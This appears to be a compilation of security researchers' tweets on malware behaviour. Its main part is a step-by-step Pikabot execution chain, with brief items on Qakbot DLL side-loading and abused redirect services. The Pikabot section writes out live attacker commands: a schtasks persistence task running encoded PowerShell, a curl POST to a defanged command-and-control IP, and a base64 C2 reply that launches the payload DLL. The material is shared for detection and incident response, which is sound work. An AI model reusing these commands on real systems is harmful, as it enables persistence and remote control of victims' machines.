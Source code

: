 https://twitter.com/ACEResponder


### Pikabot


[#Pikabot](https://twitter.com/hashtag/Pikabot?src=hashtag_click) execution chain:
➡️ rundll32.exe <PikaBot_payload>.dll,Test (initial execution)
➡️ WerFault.exe (connects to PikaBot C2, in our case it's 45.85.235[.]39) 
➡️ whoami.exe /all 
➡️ ipconfig.exe /all
➡️ schtasks.exe /Create /F /TN "{B220CD07-2339-4E8E-8FDD-DF2C6D1B42DC}" /TR "cmd /q /c start /min \"\" powershell \"$HydrofluoboricInclaspedNonredressing = Get-ItemProperty -Path HKCU:\\Software\\HydrofluoboricInclaspedNonredressing; powershell -encodedcommand $HydrofluoboricInclaspedNonredressing.ParodyRoisterImpressibly\"" /SC HOURLY /MO (example of the scheduled task as a persistence mechanism, the registry values and task name can change) NOTE: whoami, ipconfig, schtasks were spawned from WerFault.exe
➡️ PowerShell execution: powershell "$HydrofluoboricInclaspedNonredressing = Get-ItemProperty -Path HKCU:\\Software\\HydrofluoboricInclaspedNonredressing; powershell -encodedcommand $HydrofluoboricInclaspedNonredressing.ParodyRoisterImpressibly"
➡️ PowerShell execution (child process): "powershell.exe" -encodedcommand [REDACTED] -> decoded output is provided in the screenshot
➡️ curl.exe --url hxxps://192.9.135[.]73:1194/neurophysiologist/D3CAP09duSVlX?TransitorilyVerbosities=y4EB3Rb -A upb4geF6poodkVW2YaySEzk4C32sCDV -X POST --insecure (sends the POST request out to one of the IPs in the decoded output)
➡️ powershell.exe start rundll32 $env:APPDATA\Microsoft\HydrofluoboricInclaspedNonredressing\ParodyRoisterImpressibly.dll, Test (starts the PikaBot payload)
➡️ The POST request sent to C2: {"ParodyRoisterImpressibly":"CgBzAHQAYQByAHQAIAByAHUAbgBkAGwAbAAzADIAIAAkAGUAbgB2ADoAQQBQAFAARABBAFQAQQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwASAB5AGQAcgBvAGYAbAB1AG8AYgBvAHIAaQBjAEkAbgBjAGwAYQBzAHAAZQBkAE4AbwBuAHIAZQBkAHIAZQBzAHMAaQBuAGcAXABQAGEAcgBvAGQAeQBSAG8AaQBzAHQAZQByAEkAbQBwAHIAZQBzAHMAaQBiAGwAeQAuAGQAbABsACwAIABUAGUAcwB0AAoA","success":"true"} (Base64-encoded string contains the command to execute the PikaBot DLL payload on the host)

https://twitter.com/AnFam17



### [#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) DLL Side-Loading  TTPs  DFIR exec flow: ZIP > EXE&DLL > curl > rundll32


[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) DLL Side-Loading [#TTPs](https://twitter.com/hashtag/TTPs?src=hashtag_click) [#DFIR](https://twitter.com/hashtag/DFIR?src=hashtag_click) exec flow: ZIP > EXE&DLL > curl > rundll32
https://twitter.com/Max_Mal_


### Redirect Services


⚠️ Legitimate Services Abused For Phishing Purposes


1- Bing Redirect - https://app.any.run/tasks/9a1e55eb-05c5-499b-b995-d5ef0e275394?utm_source=twitter&utm_medium=post&utm_campaign=task1&utm_content=linktotask&utm_term=031023/
